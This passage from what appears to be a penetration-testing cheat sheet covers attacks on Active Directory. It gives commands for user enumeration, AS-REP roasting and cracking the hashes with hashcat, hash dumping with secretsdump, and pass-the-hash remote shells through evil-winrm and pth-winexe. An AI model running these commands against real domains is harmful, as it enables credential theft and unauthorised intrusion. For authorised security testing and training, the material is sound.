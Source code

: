 You can also enumerate users with crackmapexec’s — users option if you have creds.

If kerbrute doesn’t work, try impacket-lookupsid

```bash - kali
impacket-lookupsid $DOMAIN_NAME@$DOMAIN_CONTROLLER_IP
```

If you manual enumeration doesn’t get you a valid list of users try:  
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

**AS-REPRoasting:**
```bash - kali
impacket-GetNPUsers $DOMAIN_NAME/ -no-pass -usersfile <path to users list> -format hashcat 
```
[this command can also be used if you find valid creds, might get different results with creds]

-   [paste hash into a file — users.txt]

```bash - kali
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

![](https://miro.medium.com/max/1400/1*fjcfdjdzwgi7i0M6PSLNXA.png)

GetNPUsers.py [impacket-GetNPUsers]

**Dump password hashes a specific service account has access to (usually requires creds):**

```bash - kali
impacket-secretsdump $USER:$PASSWORD@$DOMAIN_NAME -dc-ip $DOMAIN_CONTROLLER_IP
```

![](https://miro.medium.com/max/1400/1*QlxK4x9Gs-1tBi5YNXzQGA.png)

**Use Evil-WinRM or win-pth to connect to host using PTH attack:**

```bash - kali
evil-winrm -i $DOMAIN_CONTROLLER_IP -u $USER -H $HASH
```

When using win-pth you have to append the blank LM hash to the beginning of the user’s hash, I’ll provide a link explaining this.

-   Blank LM hash (always the same) — ` Aad3b435b51404eeaad3b435b51404ee `

```bash - kali
pth-winexe -U $DOMAIN/$USER%<LM hash>:$HASH //$DOMAIN_CONTROLLER_IP dir
```

Example win-pth command:
* Blank 1st part of hash.
```bash - kali
pth-winexe -U evilcorp/Tyrell%aad3b435b51404eeaad3b435b51404ee:0f951bc4fdc5dfcd148161420b9c6207 //$DOMAIN_CONTROLLER_IP cmd.exe
```

[https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/](https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/)  
[https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee](https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee)
